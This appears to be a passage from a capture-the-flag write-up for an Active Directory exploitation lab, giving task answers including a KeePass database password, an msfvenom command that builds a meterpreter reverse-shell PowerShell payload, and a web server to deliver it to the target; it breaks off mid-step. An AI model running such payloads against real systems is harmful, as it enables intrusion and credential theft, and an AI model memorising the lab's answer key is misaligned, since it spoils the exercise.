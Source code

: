 This is a straightforward example of targeting AD users. There is a lot more that can be done. It is essential to include user targeting in your exploitation methodology for AD. To answer the questions for this task you will need Keepass. It has been installed on the AttackBox for you so you can just search for and run the application. If you are using your own VM, on most Linux distros `sudo apt install keepassx` will work. Or you can download it from [here](https://keepass.info/download.html). Also make sure to use the meterpreter `download` command to download the Keepass database to you host. If you are using Kali, make sure that the kali user owns the database file before you open it, otherwise it might lock the database and give you incorrect results.

Although persistence will only be discussed in the next room, now might be a good time to create a local account on THMSERVER1 and grant it admin rights so you have a good foothold. Since this is not really needed for the rest of the tasks, if you want to do this, you will need to do a bit of research on this yourself.

### Answer the questions below

* What application is used to open the kdbx credential database?
	
	`KeePass`

* What meterpreter command do we use to move from SYSTEM to user context?

	`migrate`

* What is the password of the credential database?

	`Imreallysurenoonewillguessmypassword`

	* Create payload
	
		```
		msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT=5555 -f psh -o shell.ps1
		```

		![task5-payload](./images/task5-payload.png)

	* Create Python web server
	
		```
		python3 -m http.server 8080
		```

		![task5-webserver](./images/task5-webserver.png)

	* Download payload on targat machine THMSERVER1
	
